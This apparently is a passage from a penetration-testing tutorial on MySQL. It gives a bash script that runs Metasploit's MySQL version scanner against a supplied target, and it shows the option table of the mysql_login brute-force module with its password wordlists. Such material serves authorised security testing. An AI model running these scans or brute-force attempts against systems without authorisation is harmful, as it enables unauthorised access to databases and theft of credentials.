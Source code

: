 ### Comprehensive Version Detection Script

```bash
#!/bin/bash

TARGET=$1

msfconsole -q -x "
workspace -a mysql_version_check;
setg RHOSTS $TARGET;
use auxiliary/scanner/mysql/mysql_version;
run;
exit"
```

## MySQL Brute Force Attacks

### MySQL Login Scanner

```bash
msf6 > use auxiliary/scanner/mysql/mysql_login
msf6 auxiliary(scanner/mysql/mysql_login) > show options

Module options (auxiliary/scanner/mysql/mysql_login):

   Name              Current Setting                      Required  Description
   ----              ---------------                      --------  -----------
   BLANK_PASSWORDS   false                                no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                    yes       How fast to bruteforce, from 0 to 5
   PASSWORD                                              no        A specific password to authenticate with
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  no        File containing passwords, one per line
   RHOSTS                                               yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             3306                                yes       The target port (TCP)
   STOP_ON_SUCCESS   false                                yes       Stop guessing when a credential works for a host
   THREADS           1                                   yes       The number of concurrent threads per host
   USERNAME                                           no        A specific username to authenticate as
   USERPASS_FILE                                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/common_users.txt  no        File containing usernames, one per line
   VERBOSE           true                                 yes       Whether to print output for all attempts
```
